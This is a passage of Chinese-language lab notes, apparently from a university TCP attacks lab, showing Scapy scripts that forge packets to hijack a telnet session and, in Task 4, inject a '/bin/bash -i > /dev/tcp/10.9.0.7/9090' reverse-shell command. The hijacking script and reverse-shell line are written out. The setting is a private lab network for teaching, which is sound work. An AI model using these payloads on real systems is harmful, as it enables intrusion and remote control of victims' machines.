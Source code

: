 请使用Scapy进行TCP会话劫持攻击。下面提供了一个基本代码。您需要用一个实际的值替换每个@@@@；您可以使用Wireshark来找出您应该在被欺骗的TCP数据包的每个字段中输入什么值。

```
#!/usr/bin/env python3
from scapy.all import *
ip = IP(src="10.9.0.6", dst="10.9.0.5")
tcp = TCP(sport=@@@@, dport=@@@@, flags="A", seq=@@@@, ack=@@@@)
data = "@@@@" //command
pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)

```

![[大三下/网络与信息安全/TCP_Attacks Lab/attachments/18.png]]

Attacker 开始攻击。

在Victim(10.9.0.5)上查看效果。
成功创建一个文件夹
![[大三下/网络与信息安全/TCP_Attacks Lab/attachments/19.png]]


# Task 4: Creating Reverse Shell using TCP Session Hijacking
本实验在Victim和User1(10.9.0.6)之间建立连接，然后Attacker主机攻击，将shell反弹到User2(10.9.0.7)上。


这一个实验还是重复Task3的过程，不过是将攻击脚本中的data换成产生后门的命令，如下所示：

```
#!/usr/bin/env python3
from scapy.all import *
ip = IP(src="10.9.0.6", dst="10.9.0.5")
tcp = TCP(sport=@@@@, dport=@@@@, flags="A", seq=@@@@, ack=@@@@)
data = "/bin/bash -i > /dev/tcp/10.9.0.7/9090 2>&1 0<&1\r"  # 这里的命令可以是别的 只要最后能看到效果就好
pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)
```

1. 开启wireshark监听telnet连接 (同上)
2.  填写攻击脚本 (srcport, seq, ack)
3. 在Attacker主机上攻击。可以看到在User2主机(10.9.0.7)上有了和Victim的连接，成功拿到shell。



![[大三下/网络与信息安全/TCP_Attacks Lab/attachments/20.png]]


可以看到在User2主机(10.9.0.7)上有了和Victim的连接，成功拿到shell。
![[大三下/网络与信息安全/TCP_Attacks Lab/attachments/21.png]]


```
netstat -anp | grep 9090
kill -9 进程号
```